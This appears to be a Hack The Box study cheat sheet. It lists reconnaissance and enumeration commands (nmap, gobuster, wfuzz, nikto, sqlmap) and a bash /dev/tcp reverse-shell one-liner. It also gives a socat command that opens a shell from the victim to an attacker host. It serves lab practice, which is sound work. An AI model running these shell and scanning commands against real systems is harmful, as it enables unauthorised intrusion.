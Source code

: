
# Stock Tools to Install
 * chmod +x install.tools.sh
 * sudo ./install.tools.sh

# Table of Contents
1. Prerequisites
    1. Machine Setup
    2. Hosts DNS Settings
2. Reconnaissance
    1. General Port Scanning
    2. Banner Grabbing
3. Enumeration
    1. Web Application Enumeration
4. Initial Access
    1. Upgrade Dumb Shell Fully Interactive Shell
5. Lateral Movement
6. Privilege Escalation

# Prerequisites
---
* set up attack machine

    ### Machine Setup
    ```
    export HTBIP=<ip>
    export HTB=<machine name>
    export HTBWEB=<website>                 # example: http://larry.htb/
    ```

    ### Hosts DNS Settings
    ```
    sudo vi /etc/hosts                      # This file acts like a dns resolver for us
    <ip>  <hostname.htb>
    ```

# Reconnaissance
---
* Gather information about the target system, network, or application.

    ### General Port Scanning
    ```
    $ sudo nmap -sC -sV -oA $HTB $HTBIP     # Scan for common scripts, enumerate versions, and output all formats
    $ sudo nmap -sU -A $HTBIP               # UDP port scan with version detection
    ```

    ### Banner Grabbing
    ```
    $ nc $HTBIP <port>                      # Connect to a specific port for banner grabbing
    ```

# Enumeration
---
* Enumerate user accounts, applications, and other relevant findings.

    ### Web Application Enumeration
    ```
    $ nmap -p 80,443 $HTBIP --script http-vuln*     # Nmap script to find common web vulnerabilities
    $ nmap -p 80,443 $HTBIP --script http-enum*     # Nmap script to enumerate web applications

    $ gobuster dir -u $HTBWEB -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -t 40
    $ gobuster dir -u $HTBWEB -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 40
    $ gobuster dns -d mydomain.com -w /usr/share/wordlists/SecLists/Discovery/DNS/combined_subdomains.txt -t 40
    $ gobuster vhost -u box.htb -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -t 64 --append-domain 

    $ wfuzz -c -z file,/usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://FUZZ.keeper.htb" 

    $ nikto -host $HTBWEB

    $ sqlmap -u $HTBWEB/login --data="username=test&password=test" --dbs    # SQL injection testing with sqlmap
    ```

# Initial Access
---
* Exploit vulnerabilities to gain initial access to the target system.

    ### One Liner Reverse Shells
    ```
    bash -i 5<> /dev/tcp/127.0.0.1/9001 0<&5 1>&5 2>&5
    ```


    ### Upgrade Dumb Shell Fully Interactive Shell
    ```
    # method 1 Python
    $ python -c 'import pty; pty.spawn("/bin/bash")'                            # run this on victim
    $ Press Ctrl + Z to background the shell.
    $ stty raw -echo; fg

    # method 2 socat
    $ socat file:`tty`,raw,echo=0 TCP-LISTEN:4444                               # on attach machine
    $ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<attack IP>:4444  # run this on victim
    ```

# Lateral Movement
---
* Move laterally within the network to explore and compromise other systems.

# Privilege Escalation
---
* Elevate privileges to gain higher-level access, such as moving from a low-privileged user to an administrator or root.

	### Buffer Overflows

	#### 32-bit Architecture, no memory protections
